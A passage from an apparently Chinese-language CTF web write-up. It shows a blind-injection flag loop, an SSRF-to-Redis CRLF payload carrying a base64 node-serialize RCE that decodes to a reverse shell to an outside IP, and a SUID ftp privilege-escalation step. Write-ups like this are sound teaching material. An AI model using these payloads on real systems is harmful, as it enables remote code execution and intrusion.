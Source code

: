 ```python
        #print(r.text)
        if "Login Failed" in r.text:
            flag+=j
            print(flag)
            break
```

然后参考https://blog.csdn.net/anwen12/article/details/122136806?spm=1001.2014.3001.5501

生成反序列化数据，ssrf打过去：

```
http://0:6379/%C4%8DHTTP/1.1%C4%8D%C4%8A*2%C4%8D%C4%8A$4%C4%8D%C4%8AAUTH%C4%8D%C4%8A$31%C4%8D%C4%8ARed1S_P0ssw0rd_a456wd4654aw54wd%C4%8D%C4%8A*1%C4%8D%C4%8A$7%C4%8D%C4%8ACOMMAND%C4%8D%C4%8A*3%C4%8D%C4%8A$3%C4%8D%C4%8Aset%C4%8D%C4%8A$37%C4%8D%C4%8Aadminf528764d624db129b32c21fbca0cb8d6%C4%8D%C4%8A$276%C4%8D%C4%8AeyJyY2UiOiJfJCRORF9GVU5DJCRfZnVuY3Rpb24oKXtyZXF1aXJlKCdjaGlsZF9wcm9jZXNzJykuZXhlYygnZWNobyBZbUZ6YUNBdGFTQStKaUF2WkdWMkwzUmpjQzh4TWpFdU5TNHhOamt1TWpJekx6TTVOelkzSURBK0pqRT18YmFzZTY0IC1kfGJhc2ggLWknLGZ1bmN0aW9uKGVycm9yLCBzdGRvdXQsIHN0ZGVycil7Y29uc29sZS5sb2coc3Rkb3V0KX0pO30oKSJ9%C4%8D%C4%8A
```

反序列化触发：

![image-20220116012642247](2022-工大抗疫-Web.assets/image-20220116012642247.png)

先提前signup，ssrf之后再signup会自动跳转到contact来触发反序列化rce。

然后suid提权，利用ftp。

参考ftp文章：https://www.commandlinux.com/man-page/man1/netkit-ftp.1.html

利用ftp server：https://github.com/mailsvb/jsftpd

代码：

```js
const { ftpd } = require('jsftpd')

const server = new ftpd({cnf: {username: 'john', password: 'doe', basefolder: '/tmp',port:6668}})

server.start()
```

```shell
ctfer@engine-1:/tmp$ echo "Y29uc3QgeyBmdHBkIH0gPSByZXF1aXJlKCdqc2Z0cGQnKQoKY29uc3Qgc2VydmVyID0gbmV3IGZ0cGQoe2NuZjoge3VzZXJuYW1lOiAnam9obicsIHBhc3N3b3JkOiAnZG9lJywgYmFzZWZvbGRlcjogJy90bXAnLHBvcnQ6NjY2OH19KQoKc2VydmVyLnN0YXJ0KCk="|base64 --decode > 1.js
<H19KQoKc2VydmVyLnN0YXJ0KCk="|base64 --decode > 1.js
ctfer@engine-1:/tmp$ ls
ls
1.js
mongodb-27017.sock
node_modules
package-lock.json
ctfer@engine-1:/tmp$ node 1.js

```
